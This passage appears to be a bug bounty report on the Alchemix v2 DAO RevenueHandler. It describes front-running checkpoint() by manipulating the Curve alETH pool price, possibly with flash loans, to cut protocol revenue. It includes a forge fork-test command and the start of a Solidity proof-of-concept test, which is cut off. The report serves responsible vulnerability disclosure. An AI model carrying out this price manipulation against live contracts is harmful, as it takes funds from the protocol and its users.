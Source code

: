 Currently, the exchange rate in Curve is `10 ETH` == `11.02 alETH`.

Exploiting this attack vector in current market conditions for a `10 ETH` protocol revenue leads to losing close to **~9.26% of protocol revenue** (*1.02 alETH*). 
> The protocol should receive *11.02 alETH* but only receives *10 alETH*.

The economic damage of this attack vector keeps increasing every time the price of *alETH* decreases.

## Requirements

Anyone can call `RevenueHandler.checkpoint()` so flash loans can be used to fund the attack. No capital or permissions are required to execute it.

## Impact Details
Loss of funds.

        
## Proof of concept
## Proof of Concept

We modified your current `testCheckpointETH()` in `alchemix-v2-dao/src/test/RevenueHandler.t.sol`, adding the price manipulation before and after the checkpoint, to demonstrate the impact of the exploit.

Remember to run the code with the correct block number (the one used in your tests: 17133822)

We run the test executing:
```
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{API_KEY} --match-test testSlippageCheckpointETH --fork-block-number 17133822 -vv
```
> Replace {API_KEY} with your API key.

The code for the test:
```javascript
    function testSlippageCheckpointETH() external {

        address[] memory alethCrvTokenIds = new address[](2);
        alethCrvTokenIds[0] = address(weth); // eth
        alethCrvTokenIds[1] = aleth;

        CurveEthPoolAdapter alethCpa = new CurveEthPoolAdapter(alethcrv, alethCrvTokenIds, address(weth));

        revenueHandler.addRevenueToken(address(weth));
        revenueHandler.setDebtToken(address(weth), aleth);
        revenueHandler.setPoolAdapter(address(weth), address(alethCpa));

        uint256 revAmt = 10e18;
        _accrueRevenue(address(weth), revAmt);

        // --------------------------------------------------------------------------
        // | Attack starts: Manipulate price pool by front-running the checkpoint() |
        // --------------------------------------------------------------------------

        // Get address of attacker
        address attacker = address(0x123);
        
        // Fund attacker
        uint256 inputAmount = 1500e18;
        deal(attacker,inputAmount);
        
        // Record attacker's ETH balance
        uint256 attackerETHBefore = attacker.balance;
```